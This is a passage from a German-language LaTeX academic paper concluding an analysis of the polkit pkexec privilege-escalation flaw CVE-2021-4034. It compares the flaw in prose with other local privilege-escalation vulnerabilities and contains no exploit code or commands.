(vgl. \cite{c22_cve_2021_3560_redhat}), die ebenfalls \texttt{polkit} betrifft. Bei dieser Lücke kann \texttt{polkit}
dazu gebracht werden, die Berechtigungsprüfung für D-Bus-Anfragen zu umgehen
und die Berechtigungen des Anfragenden auf Root-Rechte zu erhöhen (vgl. \cite{n14_nist_cve2021_3560}).
Der D-Bus ist dient als Kommunikations-Kanal zwischen verschiedenen Programmen
auf dem System bzw. der Arbeitsoberfläche (vgl. \cite{n15_ubuntuusers_dbus}).
\par
Ältere LPE-Schwachstellen wie Dirty COW (CVE-2016-5195)
(vgl. \cite{c23_cve_2016_5195}) oder Baron Samedit (CVE-2021-3156) (vgl. \cite{c24_cve_2021_3156}) beruhen auf klassischen
Speicherfehlern im Kernel beziehungsweise in Benutzerprogrammen und setzen
typischerweise eine gezielte Manipulation von Speicherzuständen voraus. PwnKit
und CVE-2021-3560 verdeutlichen, dass bereits logische Fehler im Kontrollfluss
sicherheitskritischer Komponenten maßgeblich ausreichen, um eine Privilege
Escalation zu erzielen.

\chapter{Fazit}

Die Schwachstelle CVE-2021-4034 lässt sich weder eindeutig als
Memory Corruption noch als Logic Flaw einordnen da Merkmale beider Kategorien
zur erfolgreichen Ausnutzung der Schwachstelle führen. Es handelt sich nicht
nur um einen isolierten Implementierungsfehler, sondern um das Ergebnis eines
ungünstigen Zusammenspiels mehrerer sicherheitsrelevanter Mechanismen. Der
technische Auslöser der Schwachstelle liegt in einem fehlerhaften Umgang mit
den Kommandozeilenargumenten \texttt{argv} in \texttt{pkexec}, was sich konkret
in einem Out-of-Bounds-Read sowie einem anschließenden Out-of-Bounds-Write äußert.
\par
Anders als bei einer klassischen Memory Corruption wie einem
Heap-Overflow, bei dem der Instruction Pointer überschrieben wird, um Shellcode
auszuführen der sich an einer anderen Stelle im Speicher befindet, reicht es in
diesem Fall aus, den auszuführenden Code über die Umgebungsvariablen an \texttt{pkexec}
zu übergeben (vgl. \cite{n13_sysdig_cve2021_4034}). Die Verarbeitungslogik von \texttt{pkexec}
kann unter Nutzung der \texttt{g\_printerr()} Funktion missbraucht werden um Root-Rechte zu erlangen.
\par
CVE-2021-4034 zeigt, dass auch ältere, vertrauenswürdige
Software von Sicherheitsschwachstellen betroffen sein können. Besonders in
einem sicherheitskritischen Framework wie \texttt{polkit} können unentdeckte
Schwachstellen zu einer großen Bedrohung führen. Ein vergleichsweise kleiner
Fehler im Speicherzustand führt durch eine unzureichende logische Behandlung zu
einer erfolgreichen Privilege Escalation.

\newpage

\printbibliography

\end{document}